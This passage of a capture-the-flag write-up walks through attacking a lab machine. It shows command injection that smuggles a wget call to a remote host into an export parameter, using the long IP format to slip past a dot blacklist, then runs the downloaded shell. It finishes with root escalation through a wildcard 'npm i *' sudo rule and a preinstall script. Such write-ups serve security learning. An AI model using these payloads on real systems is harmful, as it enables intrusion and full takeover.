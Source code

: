 We're close to a shell, we just need to figure out how we can get our IP address into a file/command, despite `.` being on the blacklist. Luckily, tools like `wget`, `curl`, etc can parse IP addresses in various interesting ways, but the one that is valuable here is <a href="http://www.smartconversion.com/unit_conversion/IP_Address_Converter.aspx">the long ip format</a>. This means we can download a shell from our computer onto the victim, and then execute it via something like `GET /admin/export?table=bookings%26wget+[YOURLONGIP]/shell HTTP/1.1` followed by `GET /admin/export?table=bookings%26bash+shell HTTP/1.1`.

Now that we have a shell, we can `cat user.txt` and look into privledge escalation. Right away `sudo -l` gives us our route:
{% highlight shell %}
algernon@holiday:~/app$ sudo -l
Matching Defaults entries for algernon on holiday:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User algernon may run the following commands on holiday:
    (ALL) NOPASSWD: /usr/bin/npm i *
{% endhighlight %}

Super simple. After doing some basic recon on npm, we find that:
1. `npm i` will build any directory with a `package.json` file
2. `package.json` files can contain `preinstall` scripts
3. `preinstall` will execute arbitrary bash commands

The only hurdle is that by default, npm won't run "unsafe" (sh) commands, so we need to trick it. Since there's wildcard in there, it's obvious that this is the typical wildcard exploit where we pass in a command line parameter as a folder name (`--unsafe-perm`), and, voila:
{% highlight shell %}
algernon@holiday:/$ cd /dev/shm
algernon@holiday:/dev/shm$ mkdir overcast && cd overcast
algernon@holiday:/dev/shm/overcast$ mkdir -- --unsafe-perm
algernon@holiday:/dev/shm/overcast$ mkdir -- zpackage
algernon@holiday:/dev/shm/overcast$ cat << EOF >> zpackage/package.json
> {"name": "zpackage", "version": "1.0.0", "description": "root", "scripts": {"preinstall":"cat /root/root.txt >> /dev/shm/overcast/root.txt"}}
EOF
algernon@holiday:/dev/shm/overcast$ sudo -u root /usr/bin/npm i *
[... npm install ...]
algernon@holiday:/dev/shm/overcast$ ls
root.txt
--unsafe-perm
package
{% endhighlight %}

_fin_